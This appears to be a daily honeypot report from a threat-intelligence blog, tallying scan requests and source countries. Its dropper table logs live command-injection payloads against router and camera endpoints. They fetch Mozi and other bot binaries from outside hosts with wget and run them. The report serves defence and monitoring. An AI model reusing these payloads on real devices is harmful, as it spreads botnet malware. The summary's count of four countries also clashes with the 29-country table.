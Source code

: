 ```yaml
---
title: "Report: 2025-07-27 "
date: 2025-07-27
desciption: "Report: 2025-07-27" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-27 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 16 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 542 requests were recorded during the day, originating from 4 different countries, with a peak of 196 requests coming from DE.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                 |
|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 61.52.50.221   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://61.52.50.221:58216/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                             |
| 185.180.39.132 | GET /shell?cd+/tmp;rm+arm+arm7;wget+http:/\x5C/89.221.203.116:6969/bins/arm7;chmod+777+arm7;./arm7+selfrep.jaws;wget+http:/\x5C/89.221.203.116:6969/bins/arm;chmod+777+arm;./arm+selfrep.jaws; HTTP/1.1 |
| 174.44.216.194 | GET /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd+/tmp;wget+http://unjiproxy.p-e.kr:6969/selftbk.sh+-O-|sh HTTP/1.1                                                                    |
| 47.100.130.148 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                    |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                            |
|----:|----------------------:|:---------------------------------------------------|
|  56 |                     2 | CONNECT connectivitycheck.gstatic.com:443 HTTP/1.1 |
|  86 |                     1 | GET /NmapUpperCheck1753582172 HTTP/1.1             |
|  97 |                     1 | GET /ise/img/rm-logo_small.png HTTP/1.1            |
|  98 |                     1 | GET /Nmap/folder/check1753582172 HTTP/1.1          |
| 118 |                     1 | GET /odinhttpcall1753644045 HTTP/1.1               |
| 121 |                     1 | GET /OdinHttpCall1753644045 HTTP/1.1               |
| 125 |                     1 | GET /Odin/http/call1753644045 HTTP/1.1             |
| 137 |                     1 | GET /nmaplowercheck1753582172 HTTP/1.1             |
| 138 |                     1 | GET /cgi-mod/header_logo.cgi?size=big HTTP/1.1     |
| 139 |                     1 | GET /IfgF HTTP/1.1                                 |
| 191 |                     1 | \x00\x0E8\xF4c2\xE9\xBC\x0EMe\x00\x00\x00\x00\x00  |
| 204 |                     1 | GET /main/main.html HTTP/1.1                       |
| 216 |                     1 | GET /Odin/http/call1753622389 HTTP/1.1             |
| 217 |                     1 | GET /OdinHttpCall1753622389 HTTP/1.1               |
| 218 |                     1 | GET /odinhttpcall1753622389 HTTP/1.1               |
| 263 |                     1 | \x00\x0E8\xE7&\xF2+o\xFC-\x06\x00\x00\x00\x00\x00  |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   196 | DE                 |
|  1 |                   100 | US                 |
|  2 |                    45 | JP                 |
|  3 |                    43 | GB                 |
|  4 |                    27 | NL                 |
|  5 |                    17 | BG                 |
|  6 |                    17 | PL                 |
|  7 |                    15 | IN                 |
|  8 |                    12 | SG                 |
|  9 |                    10 | HK                 |
| 10 |                     9 | CN                 |
| 11 |                     8 | RO                 |
| 12 |                     7 | CA                 |
| 13 |                     4 | HU                 |
| 14 |                     4 | SC                 |
| 15 |                     4 | UA                 |
| 16 |                     3 | KZ                 |
| 17 |                     3 | FR                 |
| 18 |                     3 | MU                 |
| 19 |                     2 | CH                 |
| 20 |                     2 | ES                 |
| 21 |                     2 | IR                 |
| 22 |                     2 | BE                 |
| 23 |                     2 | GR                 |
| 24 |                     1 | CZ                 |
| 25 |                     1 | KE                 |
| 26 |                     1 | PT                 |
| 27 |                     1 | KR                 |
| 28 |                     1 | PA                 |
